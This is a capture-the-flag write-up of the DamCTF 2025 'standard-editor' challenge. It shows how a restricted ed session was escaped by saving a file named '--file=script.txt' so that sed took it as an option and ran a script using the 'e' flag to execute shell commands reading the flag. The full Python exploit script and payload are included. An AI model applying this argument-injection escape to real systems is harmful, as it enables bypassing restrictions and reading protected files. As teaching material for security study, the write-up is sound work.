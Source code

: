 # DamCTF2025 - standard-editor writeup

- Write-Up Author: looy3 


## Write up  

---

We were given no description for this challenge, just a netcat command. The command provided a simple terminal session which outputted only the text
```
[Sun May 11 12:34:33 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
```
My gut instinct, based on the last line, is that command injection must be the solution. First, however, I had to figure out what input did in general. I quickly discovered that typing anything and hitting newline just rendered a ?. I didn't know what ed was at the time, so I mostly played around. By writing a Python script which inserted every ASCII character and hit newline, I discovered the following:
1. = returns 0
2. H gives verbose feedback
3. P returns a * after every new line
4. R, w, Q, q, a, c all return different errors or make close
From Google, I quickly discovered that netcat brought me to an Ed session. Ed is [is a line editor and one of the first parts of the Unix operating system that was developed, in August 1969](https://en.wikipedia.org/wiki/Ed_(software)). Google further revealed that there were several commands which should allow me to read/write/execute code. These commands are
1. ! you can run shell commands off this.
2. R/r/e /directory/flag.txt you can load into buffer or read the number of bytes in the flag through this command.
However, running these commands just gave me "directory access restricted" or "shell access restricted". This means that Ed was invoked with red or ed --restricted. So we will not be able to do very much with Ed command directly. To ensure I wasn't missing any commands, I checked what version of ed I was using. I found this on [stackexchange](https://unix.stackexchange.com/questions/657459/what-is-the-difference-between-gnu-ed-and-the-version-of-ed-that-ships-with-unix):
```
These are some other differences:

# as a comment character.

GNU: # is a comment command.
BSD: # is not a valid command.
Plan 9: Like BSD.
POSIX: Like BSD.
Behavior destroying unsaved work.

GNU: e, e !, and q always fails on the first try if the buffer is unsaved.
BSD: Like GNU, but using -s disables the warning.
Plan 9: Like GNU.
POSIX: Like GNU.
Exit status (this is a bit difficult to test thoroughly).

GNU: Terminates with a non-zero exit status if the last command caused an error.
BSD: Most errors cause non-zero termination only with -s.
Plan 9: Seems to never terminate with non-zero exit status.
POSIX: Termination with a zero exit status means "Successful completion without any file or command errors."
The s/// command, but with only the first /.

GNU: s/RE is an error.
BSD: s/RE behaves like s/RE/, which is the same as s/RE//p, i.e. it replaces the substring matching the regular expression RE with nothing and prints the modified line.
Plan 9: Like BSD.
POSIX: Like GNU.
Using ^ as an address.

GNU: ^ is an invalid address.
BSD: ^ addresses the previous line, just like -.
Plan 9: Like BSD.
POSIX: Permits ^ to be the same as -.
Combining the printing commands p, l, and n (like nl), and repeating commands while doing so (as in nlnl or pnnn).

GNU: Combining printing commands is allowed. Repeated commands are not permitted (although pp, nn, and ll are allowed since the standard allows adding p, n, or l to commands other than e, E, f, q, Q, r, w, or !).
BSD: Combining printing commands is allowed. Repeated commands are permitted.
Plan 9: Combinations of two commands out of the three are permitted (not nlp). Repeated commands are not allowed.
POSIX: The effect of combining printing commands is "unspecified".
Upon receiving a HUP signal, the current editing buffer is saved in a file called ed.hup in the current directory. If that fails, the buffer is written to $HOME/ed.hup. What happens if these names already exist?

GNU: The file ed.hup in the current directory will be overwritten if it is a regular file and it's owned by the current user. Otherwise, the file $HOME/ed.hup will be overwritten if it is a regular file owned by the current user. Otherwise, the buffer is lost.
BSD: Like GNU, but the current buffer is also available in a temporary file whose name matches /tmp/ed.*.
Plan 9: Like GNU.
POSIX: Like GNU.`
```
The challenge used GNU ed. Unfortunately, GNU ed doesn't really have any unique commands which would allow me to execute code externally.

Thus, as per my initial hunch, I assumed that either the file name or file contents are executed by something. To test this, I simply devised a python script (not using pwntools, although I should have :P) to test every possible ASCII combination in both the file name and file contents and then wrote it to the local directory (which is allowed under red). Two ASCII characters stood out to me: Both '-' and '.' yielded this error:
```
sed: invalid option -- ' '
Usage: sed [OPTION]... {script-only-if-no-other-script} [input-file]...

  -n, --quiet, --silent
                 suppress automatic printing of pattern space
      --debug
                 annotate program execution
  -e script, --expression=script
                 add the script to the commands to be executed
  -f script-file, --file=script-file
                 add the contents of script-file to the commands to be executed
  --follow-symlinks
                 follow symlinks when processing in place
  -i[SUFFIX], --in-place[=SUFFIX]
                 edit files in place (makes backup if SUFFIX supplied)
  -l N, --line-length=N
                 specify the desired line-wrap length for the `l' command
  --posix
                 disable all GNU extensions.
  -E, -r, --regexp-extended
                 use extended regular expressions in the script
                 (for portability use POSIX -E).
  -s, --separate
                 consider files as separate rather than as a single,
                 continuous long stream.
      --sandbox
                 operate in sandbox mode (disable e/r/w commands).
  -u, --unbuffered
                 load minimal amounts of data from the input files and flush
                 the output buffers more often
  -z, --null-data
                 separate lines by NUL characters
      --help     display this help and exit
      --version  output version information and exit

If no -e, --expression, -f, or --file option is given, then the first
non-option argument is taken as the sed script to interpret.  All
remaining arguments are names of input files; if no input files are
specified, then the standard input is read
```
You can see the steps I took to manually get this error:
![I hate alt text](https://github.com/looy3/ctf-writeups/blob/main/DamCTF/misc/imsadsadsadsaage.png)

I didn't bother with executing code from sed using . and rather focused on -. First, I tried --version. This worked. I found that we were using the latest version of GNU Sed.
```
[Sun May 11 13:00:19 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
10
sed (GNU sed) 4.9
Packaged by Debian
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by Jay Fenlason, Tom Lord, Ken Pizzini,
Paolo Bonzini, Jim Meyering, and Assaf Gordon.

This sed program was built with SELinux support.
SELinux is disabled on this system.

GNU sed home page: <https://www.gnu.org/software/sed/>.
General help using GNU software: <https://www.gnu.org/gethelp/>.
E-mail bug reports to: <bug-sed@gnu.org>.
```
Cool. We can use sed. I tried other payloads, including 
```-n 's/.*/COMMAND/e'```
Dir access was blocked. Sed does allow for numerous wild cards though. But even then, sed only replied that it could not execute '' . It was reading my input as a singular string. I'd have to find a way to execute commands which could be written in a single string. Sed's man page reported the following:
```
--file=script-file

              add the contents of script-file to the commands to be executed
              ```
Pretty sure I could use that to execute a script file I made using ed (as I could only run one command in sed before session ended). Thus, the following payload, which contains a sed command 
```(s/.*/cd ..; ls .. -a; cd ..; cat flag/e)``` 
inside a script named 'script.txt' is executed by another file written as --file=script.txt with contents --file=script.txt. This finally provided the much wanted flag:
```
dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

This is the full script with all of its sockets :P
```
import socket
import string

def send_to_netcat(host, port, data):
    """Sends data to a netcat listener and returns the response."""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((host, port))
            s.sendall(data.encode())
            s.shutdown(socket.SHUT_WR)

            response = b""
            while True:
                chunk = s.recv(4096)
                if not chunk:
                    break
                response += chunk
            return response.decode()
    except Exception as e:
        return f"Error: {e}"

if __name__ == "__main__":
    host = "standard-editor.chals.damctf.xyz"
    port = 6733
    commands = f"H\na\ns/.*/cd ..; ls .. -a; cd ..; cat flag/e\n.\nw script.txt\n1d\na\n--file=script.txt\n.\nw --file=script.txt\n"  
    data = commands
    response = send_to_netcat(host, port, data)
    print(response)
    print("\n\n\n")
```

